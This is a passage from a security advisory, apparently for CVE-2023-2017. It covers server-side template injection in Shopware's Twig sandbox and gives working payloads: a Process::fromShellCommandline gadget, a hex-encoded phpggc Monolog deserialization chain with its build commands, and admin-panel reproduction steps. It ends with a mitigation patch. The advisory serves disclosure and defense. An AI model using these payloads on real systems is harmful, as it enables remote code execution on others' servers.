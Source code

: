 ### Gadget 3: 
Using `\Symfony\Component\Process\Process::fromShellCommandline()` to invoke proc_open("id > /tmp/pwned.txt"):
```
{{ {'/':'id > /tmp/pwned.txt'} | map(['\\Symfony\\Component\\Process\\Process', 'fromShellCommandline']) | map(e => e.run()) | length }}
```

### Exploit Conditions:
This vulnerability can be exploited if the attacker has access to:
- an administrator account, or
- a non-administrative user account with permissions to create/edit Twig templates, such as:
1. Settings > Email templates permissions
2. Content > Themes permissions
3. Additional Permissions > Manage Extensions permissions

### Steps Reproduction:
For simplicity, the following proof-of-concept uses the administrator account to demonstrate how the vulnerability can be exploited using `Email templates`.
1. Navigate to http://<shopware_target>/admin#/sw/mail/template/index and login to an administrator account.
2. Click the ... button for the first template (e.g. Cancellation invoice), and click the Edit button.
3. Under the Mail text section, enter the following payload for the HTML text area:
```
<!--
Gadget 1: Using \Shopware\Core\Framework\Adapter\Cache\CacheValueCompressor::uncompress() to invoke unserialize()
Serialized payload generated using the phpggc tool: ./phpggc -b Monolog/RCE8 system 'id'
Compressed payload is generated using: 
$ php -r 'echo gzcompress(shell_exec("php phpggc Monolog/RCE8 system id"));' | hexdump -v -e '"\\\x" 1/1 "%02X"'
-->
{{ ["\x78\x9C\x65\x90\x4D\x4F\xC3\x30\x0C\x86\x77\xE6\x67\xF8\xC8\xA9\x49\x61\x30\xE7\x86\x86\xE0\x50\x34\x09\xAE\x93\xA6\x7E\x78\xC5\x53\xDA\x4C\x49\x3A\xF1\xA1\xFE\x77\x92\x06\x8D\xA2\xDD\xEC\xF7\x8D\x5F\x3F\xCE\x06\xE5\x3D\xC2\x8B\xE9\x8D\x36\xED\xF6\xB9\xEC\x1B\x4D\x76\xFB\x64\xCD\x70\xFC\x6D\x00\x05\x7E\x3B\x14\x02\x61\x71\xBD\x78\x4F\xA2\x03\x55\x46\x9D\x31\x53\x1B\x94\xAB\xCB\x88\x87\x61\xBF\x27\x7B\xCE\x58\x4E\x19\xD9\x3C\x03\x94\xC5\x5C\x05\x35\x9F\xD4\x6A\x1A\x78\xE3\x2F\x02\xC5\x28\xA2\x71\x33\x33\x0A\xEE\xD8\x47\x27\x0B\xCE\x6A\x66\xFC\x23\x11\x77\x7F\x24\x85\x69\x5F\xA9\x36\xB6\x01\x94\x71\xFB\x2D\x82\xA6\x13\x69\x50\x8F\x28\x66\xC4\x45\x14\x71\x4D\xD5\xD0\x82\x9A\x9E\x75\xFC\x41\x4D\xAC\x25\x02\x87\x62\x1C\xCF\x30\xDC\xB3\xE7\x52\x07\xCA\xA0\x57\x09\x33\xF1\x1F\xAD\xA9\xC9\x39\x93\xFE\x26\x4F\x44\xC1\x0D\x79\x2D\xF9\x9D\xA9\x0E\x54\xFB\xDD\xA9\x8C\x7E\xBA\x2F\xCC\x51\xDF\xC4\x4E\x86\x6E\x89\xE0\x3E\x9D\xA7\x2E\xEE\x1B\xC7\xAB\x1F\x89\x25\x7F\x63"] | map(['\\Shopware\\Core\\Framework\\Adapter\\Cache\\CacheValueCompressor', 'uncompress']) | length }}
```
4. In the right-sidebar, click the Show Preview button. Observe that the id shell command is executed successfully:
![img](https://starlabs.sg/advisories/23/images/CVE-2023-2017.png)

### Mitigations:
Patch the logic flaw in the `SecurityExtension` function declared in `src/Core/Framework/Adapter/Twig/SecurityExtension.php` to ensure that the parameter passed to the respective filter functions must either be a `string` or a `Closure` as such:
An sample patch is shown below for the map() filter:
```
    public function map(iterable $array, string|callable|\Closure $function): array
    {
-       if (\is_string($function) && !\in_array($function, $this->allowedPHPFunctions, true)) {
+       if (!($function instanceof \Closure) && (!(\is_string($function) && \in_array($function, $this->allowedPHPFunctions, true))) {
            throw new \RuntimeException(sprintf('Function "%s" is not allowed', $function));
        }
```